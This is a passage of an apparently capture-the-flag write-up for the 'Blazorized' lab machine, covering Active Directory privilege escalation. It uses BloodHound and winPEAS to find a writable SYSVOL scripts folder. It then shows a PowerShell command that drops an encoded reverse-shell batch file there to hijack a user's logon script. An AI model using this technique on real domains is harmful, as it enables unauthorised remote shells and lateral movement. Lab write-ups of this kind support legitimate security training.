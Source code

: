 ### SSA_6010

The another users has a `logoncount` 0 and the user `SSA_6010` has a logoncount 4236.

LogonCount is a login count, a property that is part of the profile information in an `Active Directory (AD)` environment.

![Image](/assets/img/post/blazorized/40.png)

From Bloodhound we can see that RSA_4810 is member of group Remote_Support_Administrators.
Upload `winPEAS` and Run and it show us a writeable file path.

We have write privilege under A32FF3AEAA23 directory in SYSVOL.

icacls A32FF3AEAA23 

![Image](/assets/img/post/blazorized/41.png)

```shell
'powershell -e  *base64*' | Out-File -FilePath C:\windows\SYSVOL\sysvol\blazorized.htb\scripts\A32FF3AEAA23\revshell.bat -Encoding ASCII
```
